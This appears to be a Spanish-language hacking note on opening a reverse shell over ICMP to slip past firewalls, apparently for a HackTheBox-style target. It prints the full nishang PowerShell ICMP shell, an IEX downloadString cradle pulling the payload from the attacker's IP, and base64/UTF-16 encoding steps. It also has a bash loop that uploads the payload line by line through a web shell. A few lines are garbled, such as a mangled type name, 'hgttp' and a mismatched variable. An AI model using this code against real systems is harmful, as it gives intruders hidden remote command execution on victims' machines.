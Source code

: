 # ICMP
El **Internet Control Message Protocolo** es parte del conjunto de protocolos IP. Es utilizado para enviar mensjes de error e información operativa indicando, por ejemplo, que un host no puede ser localizado o que un servicio se ha solicitao no está disponible.

-----
# Abuso 

La técnica **ICMP Reverse Shell** es utilizada para establecer una conexión inversa a través del protocolo ICMP desede una máquina comprometida a una máquina atacante. Esta técnica puede ser utilizada para evadir detecciones de seguridad y firewalls, ya que el tráfico ICMP a menudo se permite en muchas redes.

En este caso, podríamos usar el repositorio de [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1) en donde se comparten scripts como **PowerShellIcmp.ps1**.

```powershell
function Invoke-PowerShellIcmp
{        
    [CmdletBinding()] Param(

        [Parameter(Position = 0, Mandatory = $true)]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $false)]
        [Int]
        $Delay = 5,

        [Parameter(Position = 2, Mandatory = $false)]
        [Int]
        $BufferSize = 128

    )

    $ICMPClient = New-Object System.Net.NetworkInformation.Ping
    $PingOptions = New-Object System.Net.NetworkInformation.PingOptionsInvoke-PowerShellIcmp
    $PingOptions.DontFragment = $True

    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null

    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '> ')
    $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null

    while ($true)
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes('')
        $reply = $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions)
        
        if ($reply.Buffer)
        {
            $response = ([text.encoding]::ASCII).GetString($reply.Buffer)
            $result = (Invoke-Expression -Command $response 2>&1 | Out-String )
            $sendbytes = ([text.encoding]::ASCII).GetBytes($result)
            $index = [math]::floor($sendbytes.length/$BufferSize)
            $i = 0

            if ($sendbytes.length -gt $BufferSize)
            {
                while ($i -lt $index )
                {
                    $sendbytes2 = $sendbytes[($i*$BufferSize)..(($i+1)*$BufferSize-1)]
                    $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes2, $PingOptions) | Out-Null
                    $i +=1
                }
                $remainingindex = $sendbytes.Length % $BufferSize
                if ($remainingindex -ne 0)
                {
                    $sendbytes2 = $sendbytes[($i*$BufferSize)..($sendbytes.Length)]
                    $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes2, $PingOptions) | Out-Null
                }
            }
            else
            {
                $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes, $PingOptions) | Out-Null
            }
            $sendbytes = ([text.encoding]::ASCII).GetBytes("`nPS " + (Get-Location).Path + '> ')
            $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null
        }
        else
        {
            Start-Sleep -Seconds $Delay
        }
    }
}
```
De este script podríamos eliminar todos los comentarios e invocar el mismo al final, agregando la línea `Invoke-PowerShellIcmp -IPAddress {our_ip}`. Puede ser interesante de cara a evitar posibles **black_lists** o **configuraciones de firewall** cambiar el nombre a la función.

Una vez descargado el script, deberiamos ejecutar dos procesos específicos.

**1.** Configurar el sistema para que ignore todas las solicitudes de eco ICMP entrantes, lo que es equivalente a desactivar la respuesta a los pings. Esto puede utilizarse como una medida de seguridad para evitar que otros equipos realicen ping al sistema.

```bash
sudo sysctl -w net.ipv4.icmp_echo_ignore_all=1
```
**2.** Descargar el script [icmpsh_m.py](https://github.com/bdamele/icmpsh/blob/master/icmpsh_m.py) y ejecutarlo con las indicaciones dadas. El mismo implementa el shell inverso a través del protocolo ICMP.

```bash
sudo python icmpsh_m.py {our_ip} {target_ip}
```
En caso de que no podamos subir a la máquina víctima el mismo con   `IEX(New-Object Net.WebClient).downloadString('hgttp://{our_ip}/icmp_PowerShellIcmp.ps1')` podríamos intentar aplicar el concepto de `echo 'line to add' > C:\Temp\file` para línea por línea intentar cargar este script en un path determinado del sistema. 

Para realizar esto es importante quitar todos los saltos de línea del script.

```bash
cat PowerShellIcmp.ps1 | sed '/^\s*$/d' | sponge PowerShellIcmp.ps1
# El \s es equivalente al espacio, por lo que se indica eliminar todo lo que empiece (^) con un espacio (\s) y acabe ($) con nada serán eliminadas (/d)
```
Una vez eliminados los espacios, hay que tener en cuenta que los carácteres especiales sean un problema, por lo que es buena idea empezar a pensar en **base64**, aunque PowerShell no lo interpretará de manera correcta debido a los caracteres y el formato de codificación de los archivos de script.

Por lo que habría que cambiar con la herramienta **iconv** el formato de codificación del archivo a UTF-16, ya que es la manera en la que powershell espera leerlo.

```bash
cat PowerShellIcmp.ps1 | iconv -t utf-16le | base64 -w 0; echo > icmp_base64.ps1
```
De esta manera ahora tendríamos en poder un archivo con todo el script a cargar en el sistema víctima en el formato correcto y en base64.

Si tuvieramos que subir este archivo a la máquina victima y no tendríamos conectividad por TCP por **Firewalls**, sería importante tener en cuenta que no podríamos hacerlo de una única vez debido a que el comando **curl** o mismo el navegador tienen un limite, por lo que es buena idea emitir este por partes. Para realizar esto podemos hacer uso de la herramienta **fold** (Herramienta utilizada para dar formato y ajustar el ancho de las líneas de un archivo o texto). 

```bash
fold icmp_base64.ps1 | sponge icmp_base64.ps1
```

Una vez que tengamos el contenido de manerar óptima, quedaría subir el archivo. Por lo que podríamos crearnos un script en bash o python.

```bash
#!/bin/bash

function ctrl_c(){
	echo -e "\n\n\t[!] Quiting...\n\n"
	tput cnorm; exit 1
}

declare -r url="http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx"

counter=0

echo; tput civis; for line in $(cat icmp.ps1.b64); do
	command="echo+$line+>>+C:\Temp\icmp_cmd.ps1"
	echo -ne "[+] Line $counter sended [$counter/87]\r"
	curl -s -X GET "$url?xcmd=$command" &>/dev/null
	let counter+=1
done; tput cnorm
```
Una vez subido el archivo, el problema al cual nos enfrentamos es que tenemos toda la fución de PowerShell en base64, por lo que habría que decodearlo. Para hacer esto podríamos hacer uso de herramientas como **pwsh** las cuales nos brindan un entorno de prueba de PowerShell.

```powershell
powershell $functionb64 = Get-Content C:\Temp\icmp_cmd.ps1
# Guardar en la varibale functionb64 el contenido alojado en el archivo C:\Temp\icmp_cmd.ps1

powershell $decodeFunction = [System.Text.Encoding]::Unicode.getString([System.Convert]::FromBase64String($file64))
# Decodear de base64 el contenido de la función.

powershell $decodeFunction > C:\Temp\final_icmp_cmd.ps1
# Guardar la función decodeada en un nuevo archivo C:\Temp\final_icmp_cmd.ps1

powershell $functionb64 = Get-Content C:\Temp\icmp_cmd.ps1; $decodeFunction = [System.Text.Encoding]::Unicode.getString([System.Convert]::FromBase64String($file64)); $decodeFunction > C:\Temp\final_icmp_cmd.ps1
```
Como último, solo quedaría ejecutar el script final **powershell C:\Temp\final_icmp_cmd.ps1** y recibir la conexión. 
